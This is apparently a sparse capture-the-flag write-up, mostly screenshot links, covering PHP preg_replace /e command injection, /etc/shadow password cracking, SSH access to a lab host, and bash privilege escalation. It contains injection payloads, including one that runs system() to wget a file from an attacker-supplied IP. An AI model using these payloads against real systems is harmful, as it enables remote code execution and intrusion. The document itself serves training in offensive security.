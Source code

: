 ![image](https://github.com/stensil4rt/CodeBy/assets/62753044/2361431a-bf37-44b2-806a-b76500028462)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/9abfe5ff-af2e-4673-a9a1-4e31626755ba)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/3c63736c-a880-4232-9dfd-ed420b507e97)

https://captainnoob.medium.com/command-execution-preg-replace-php-function-exploit-62d6f746bda4

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/019d9fe1-3ab4-47b8-a34b-21e260c328b7)

`pattern=/a/e&replace=phpinfo();&paragraph=4`

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/4284093c-88d1-4a76-9082-4bdc1b38b788)

`pattern=/a/e&replace=system('wget http://ip:1234/test1.php');&paragraph=4`

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/db5f7de7-99bd-4d02-bb84-28a8f577839e)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/ecfee481-71ea-45ba-8aa7-f4f88683a09f)

https://erev0s.com/blog/cracking-etcshadow-john/

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/61f842eb-f859-40f1-a1c8-35e33236d643)

`ssh derek@62.173.140.174 -p 18722`

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/f2ce2370-c03a-4fa3-ae50-d736c289d866)

https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/bash-eq-privilege-escalation/



